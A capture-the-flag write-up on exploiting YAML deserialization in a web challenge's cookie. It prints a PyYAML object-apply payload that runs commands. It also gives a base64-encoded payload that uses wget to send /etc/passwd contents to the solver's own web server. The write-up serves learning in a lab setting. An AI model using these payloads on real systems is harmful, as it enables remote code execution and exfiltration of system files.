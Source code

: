 # A writeup on Bad Request from cybertalents, Marathon CTF.

- Challenge Name: `Bad Request`
- Level: `Medium`
- Points: `100`
- Category: `Web Security`

## Challenge Descreption
>> we are working on an api for our website , 
>> we didn't decide if YAML would be accurate or not but it is still under construction , we hope our passwd file is secure.


## First Look
as we see we got a json document `api_data	"The api is still under construction, updates coming soon!`
and taking a look at the cookies with the cookie editor we have a cookie called `data`:`YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`
when we decode the base64 we get:`api_data: The api is still under construction, updates coming soon!`,
basiclly nothing, but when you think about it it makes sense ofcourse it has something to do with YAML
so look up `YAMl Deserialization` its a YAML RCE.

I found an intereseting payload `yaml: !!python/object/apply:subprocess.check_output ['id']` and it worked
but there is a problem the flag is in `/etc/passwd` and this payload doesn't accept spaces.

so a friend gave me a link `https://xerosecurity.com/wordpress/exploiting-python-deserialization-vulnerabilities/`.

## Solution
Run a web server with `python3 -m http.server`.

Payload: `Imdvb2RieWUiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6b3Muc3lzdGVtIFsid2dldCBodHRwczovL3lvdXItd2ViLXNlcnZlci8/JTYwY2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAnRidgIl0K` (decode it to know the answer and put your data and decode it again and input it as a cookie)
